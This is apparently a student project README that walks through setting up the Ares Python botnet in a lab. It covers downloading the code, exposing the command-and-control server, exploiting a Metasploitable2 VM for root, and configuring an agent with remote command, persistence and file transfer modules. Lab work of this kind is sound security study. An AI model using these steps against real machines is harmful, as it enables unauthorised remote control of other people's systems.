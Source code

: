 # 460 Semester Project - Botnet attacks, Mitigation and Analysis

Project files for 460 SP

## Ares Botnet setup
To set up the Ares botnet, do the following:

### Server VM - Kali Linux or Ubuntu Server 16.04
* Make sure *sqlite3* is installed - *sudo apt-get install sqlite3*
  * Also make sure Python >=2.6 is installed
* Download the Ares botnet code - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
* Unzip the downloaded archive
* Navigate to *Ares/server/conf* and modify the *server.conf* file.
    * Change the line *server.socket_host: '127.0.0.1'* to *server.socket_host: '0.0.0.0'*
* Execute *python db_init.py* to create the SQLite3 database.
* Finally, start the server - *python server.py*
* Navigate to the IP address of the server VM at port 8080 to access the Ares
command interface.  Enter a database password when prompted and login.

### Client -- Metasploitable2 VM
* Using Kali Linux, exploit a vulnerability and obtain a root shell
* Set up the Metasploitable2 VM

  #### Edit the sources file to allow program downloads and updates:
  * *sudo mv /etc/apt/sources.list /etc/apt/sources.list.mv*
  * *sudo nano /etc/apt/sources.list* and add:
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-updates main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-security main restricted universe multiverse
    * deb http://ppa.launchpad.net/python-dev/ppa/ubuntu hardy main

  #### Fix error about keyserver
  * Issue *sudo apt-get update*.  If there is an error about keys, do:
    * *sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys (the key code in the response showing the problem)*
  * Finally, update using *sudo apt-get update*

  #### Install Python 2.6, pip and python-requests
  * Install Python 2.6 - *sudo apt-get install python2.6*
  * Install pip - *sudo apt-get install python-pip*
  * Install requests - *sudo pip install requests*

  #### Join the botnet
  * Download the botnet files - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
  * Extract the archive and navigate to Ares/agent/python
  * Modify two files:
    * settings.py --- change 'localhost' to the IP of the C&C server (Kali VM)
    * agent.py --- comment out/modify the following lines:
      * *from modules import screenshot*
      * Change the line *MODULES = ['runcmd', 'persistence', 'download', 'upload', 'screenshot']* to *MODULES = ['runcmd', 'persistence', 'download', 'upload']*
      (that is, remove 'screenshot' from the end of the array list.)
  * Note to self: add a step here to step python 2.6 as default
  * Finally, join the botnet by executing *python2.6 server.py*




<!-- ## Update 11/29/2016
* Added files for Ares Python Botnet

## Setting up the server
* chmod +x and use sudo ./setup.sh to run the setup script
* Automatically downloads all necessary packages, modifies file with IP address
of the C&C server and starts the C&C @ port 8080

## Setting up the bots
* setup.sh handles setting the IP address of the C&C server for the bot
* Simply execute python agent.py within the Ares/agent/python/ directory -->
